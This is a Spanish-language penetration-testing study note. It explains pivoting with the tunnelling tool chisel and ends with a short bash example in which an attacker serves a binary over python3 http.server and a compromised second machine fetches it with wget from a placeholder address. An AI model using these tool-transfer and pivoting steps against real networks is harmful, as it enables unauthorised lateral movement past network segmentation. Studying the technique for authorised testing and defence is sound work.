----
- Tags: #avanzado #teoria #practica
----

# ¿ Que es el **pivoting** ?

### El **pivoting** (También conocido como "*hopping*") es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.

### Por ejemplo, si un atacante ha comprometido una máquina en una red corporativa, puede utilizar técnicas de pivoting para utilizar esa máquina como punto de salto para atacar otras máquinas en la misma red que de otra manera no serían accesibles. Esto se logra a través de la creación de túneles de comunicación desde la máquina comprometida a otras máquinas en la red.

### El pivoting puede ser utilizado para superar restricciones de seguridad que de otra manera impedirían a un atacante acceder a determinadas máquinas o redes. Por ejemplo, si una red corporativa utiliza segmentación de red para separara diferentes partes de la red, el pivoting puede ser utilizado para superar esta restricción y permitir que un atacante salte de una red a otra. 

----

# Conceptos 

### Como sabemos el pivoting consiste en movernos desde una máquina a otra, pudiendo así llegar a tener conexión con máquinas las cuales previamente no contabamos con traza, esto se puede hacer de múltiples formas, pero una herramienta muy utilizada para el pivoting es [chisel]('https://github.com/jpillora/chisel/releases'), la cual hay que correr desde la máquina atacante como **server** y desde la/s máquina/s victima/s como **client**. 

### Una vez que tengamos **chisel** en nuestra máquina, si deseamos hacer pivoting entre la *Máquina 1* con la *Máquina 2* para llegar a una *Máquina 3*, deberiamos trasladar el chisel a nuestra *Máquina 2*, para eso existen varías maneras (Ignorando el descargarlo desde google)

### Con **python**: 
```bash
# Máquina 1 en donde este el {binary}: 
python3 -m http.server {port}
# Máquina 2: 
wget http://{ip}:{port}/{binary}
```

